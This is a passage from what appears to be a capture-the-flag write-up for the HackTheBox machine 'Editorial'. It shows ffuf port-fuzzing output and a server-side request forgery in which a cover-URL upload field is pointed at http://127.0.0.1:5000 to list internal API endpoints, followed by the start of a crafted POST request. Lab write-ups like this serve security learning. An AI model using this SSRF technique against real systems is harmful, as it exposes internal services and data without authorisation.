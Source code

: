 ```
-----------------------------283338384034137401052693891016
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream

-----------------------------283338384034137401052693891016--
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 124ms]
:: Progress: [10000/10000] :: Job [1/1] :: 47 req/sec :: Duration: [0:04:05] :: Errors: 2 ::
```

The key detail here is the number 5000, which indicates an API endpoint on the internal port 5000.

Entering ```http://127.0.0.1:5000``` in the "Book information" field (found under the "Publish with Us" page) produced an intriguing response in Burp Suite's Proxy - HTTP history (sorting the entries by "Time Requested" can help streamline navigation for easier analysis):

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 23 Sep 2024 15:04:21 GMT
Content-Type: application/octet-stream
Content-Length: 911
Connection: close
Content-Disposition: inline; filename=824a4974-c2b4-4ac0-b97f-bfaaa9ff8ed2
Last-Modified: Mon, 23 Sep 2024 15:04:20 GMT
Cache-Control: no-cache
ETag: "1727103860.8637035-911-4114749752"

{"messages":[{"promotions":{"description":"Retrieve a list
of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

As seen in the output above, upon accessing port 5000, I discovered several API endpoints, with the most intriguing one being ```/api/latest/metadata/messages/authors```.

My next step involved returning to the initial ```http://127.0.0.1:5000``` request, sending it to the Repeater, and appending ```/api/latest/metadata/messages/authors``` as follows:

```
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3973126007865768581930037291
Content-Length: 395
Origin: http://editorial.htb
Connection: close
Referer: http://editorial.htb/upload

-----------------------------3973126007865768581930037291
```